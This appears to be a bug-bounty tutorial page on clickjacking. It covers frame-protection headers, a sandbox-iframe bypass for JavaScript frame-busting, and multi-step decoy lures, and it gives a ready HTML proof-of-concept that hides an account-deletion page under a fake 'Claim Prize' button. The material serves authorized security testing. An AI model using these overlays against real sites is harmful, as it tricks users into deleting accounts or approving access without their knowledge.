

> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/Clickjacking

# Clickjacking

Clickjacking pays less than it used to. Most programs rate it P4/low or explicitly deprioritize it because the exploitability bar is high  -  you need user interaction, the target can't have modern frame protections, and the actionable UI elements need to be visually overlappable. That said, it still comes up, especially on older apps and SaaS products with account management actions.

The bug: a malicious page embeds the target in a transparent iframe, then overlays fake UI so the user clicks on hidden target actions. Account deletion, "authorize this OAuth app," payment confirmation  -  these are the scenarios worth pursuing.

## Frame Protection Mechanisms



`X-Frame-Options` is the legacy mechanism. `Content-Security-Policy: frame-ancestors` is the modern replacement and takes precedence when both are present. Test both. Some apps set XFO but not CSP frame-ancestors, which works fine in most browsers  -  but if you see mismatches, note them.

## Checking Quickly

```bash
# Check headers
curl -sI https://target.com/account/delete | grep -iE 'x-frame|content-security'
 
# Or in Burp  -  Response tab, filter headers
```

The real test is whether the browser actually blocks framing  -  do it:

```html
<iframe src="https://target.com/account/settings" style="width:800px;height:600px"></iframe>
```

Open in Chrome. If the page loads, it's frameable. If you see a blank iframe or devtools shows a blocked frame error, protections are working.

## Frame Busting Bypass

Some apps use JavaScript frame-busting instead of headers:

```javascript
if (top !== self) { top.location = self.location; }
```

Classic bypass: sandbox the iframe to block JS execution while allowing forms:

```html
<iframe src="https://target.com/settings"
  sandbox="allow-forms allow-scripts allow-same-origin"
  style="opacity:0.0;position:absolute;top:0;left:0;width:100%;height:100%;">
</iframe>
```

`sandbox` without `allow-top-navigation` prevents the frame-busting redirect from succeeding. `allow-scripts` lets the page's own scripts run (so it doesn't break), but `allow-top-navigation` is what frame busting needs  -  and we don't give it that.

Note: if `Content-Security-Policy: frame-ancestors` is set, sandbox tricks don't help  -  CSP is enforced at the network/browser level before JS runs.

## Multi-Step Clickjacking

Single-click clickjacking is hard to exploit in practice  -  the one target UI element needs to be exactly where you put your fake button. Multi-step flows are more controllable because you can guide the user through several interactions:

1. "Click here to claim your prize" -> user clicks what they think is a button -> actually clicks "Confirm email change" on the hidden target iframe
2. "Confirm you're human" -> user clicks -> actually clicks "Delete account"

Multi-step also matters for apps that show a confirmation dialog  -  one click to open the dialog, second click to confirm. Both clicks can be staged.

## PoC Template

```html
<!DOCTYPE html>
<html>
<head>
<style>
  #target-iframe {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
    opacity: 0.01; /* Use 0.5 while building, then set to 0.01 */
    z-index: 2;
    border: none;
  }
  #decoy {
    position: absolute;
    /* Adjust top/left to overlay the target button */
    top: 300px;
    left: 200px;
    z-index: 1;
    padding: 12px 24px;
    background: #007bff;
    color: white;
    border: none;
    cursor: pointer;
    font-size: 16px;
    border-radius: 4px;
  }
</style>
</head>
<body>
<h2>You've been selected for a reward!</h2>
<p>Click the button below to claim your prize.</p>
<button id="decoy">Claim Prize</button>
<iframe id="target-iframe"
  src="https://target.com/account/delete"
  sandbox="allow-forms allow-scripts allow-same-origin">
</iframe>
</body>
</html>
```

Build the PoC with `opacity: 0.5` first so you can see both layers and align the button. Drop to `0.01` (not 0  -  some browsers don't process events on fully transparent iframes) for the final demo.

## What Makes It Worth Reporting

Clickjacking on a page that does something meaningful: account deletion, adding attacker-controlled email, OAuth authorization, password change  -  these are the reports that get paid. Clickjacking on a search form or a preferences toggle is a waste of time and credibility.

Chain it with [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF) if you can  -  some apps have both missing CSRF tokens and missing frame protections. Report both together.

## Checklist

- Check X-Frame-Options and CSP frame-ancestors on all sensitive action pages
- Attempt to frame the page in a test HTML page
- If JS frame busting is present: test sandbox iframe bypass
- Map which actions are valuable enough to be worth a clickjacking report
- Build PoC with opacity overlay, align decoy button precisely
- Verify the action executes when clicking through the iframe

## Public Reports

- Clickjacking on account deletion page with no frame protection - [HackerOne #765883](https://hackerone.com/reports/765883)
- Clickjacking on OAuth authorisation page allows approving app without user knowledge - [HackerOne #1010137](https://hackerone.com/reports/1010137)
- X-Frame-Options missing on email change confirmation allows frame-based CSRF chain - [HackerOne #882914](https://hackerone.com/reports/882914)
- JS frame-busting bypass via sandbox attribute on high-severity account action - [HackerOne #1061534](https://hackerone.com/reports/1061534)

## See Also

- [CSRF](../../../Attack-Surface/Web/Client-Side/CSRF)
- [Session Management](../../../Attack-Surface/Web/Authentication/Session-Management)
